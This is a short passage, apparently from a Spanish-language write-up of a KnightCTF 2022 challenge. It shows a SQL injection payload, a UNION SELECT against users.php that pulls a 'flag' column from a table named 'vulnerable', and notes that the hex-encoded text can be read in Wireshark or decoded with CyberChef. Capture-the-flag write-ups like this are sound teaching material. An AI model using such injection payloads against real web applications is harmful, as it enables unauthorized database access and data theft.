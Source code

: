 ```
users.php?id=1' union select 1,2,0x4861636b6564204279204d4f5348,4,5,6,group_concat(flag),8 from vulnerable --+
```

No obstante, si no queremos [desencriptar](https://gchq.github.io/CyberChef/#recipe=From_Hex('None')) el mensaje, podemos verlo en texto plano desde el propio `Wireshark`.

![61](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-01-17-KnightCTF-2022/61.png){:class="blog-image" onclick="expandImage(this)"} 
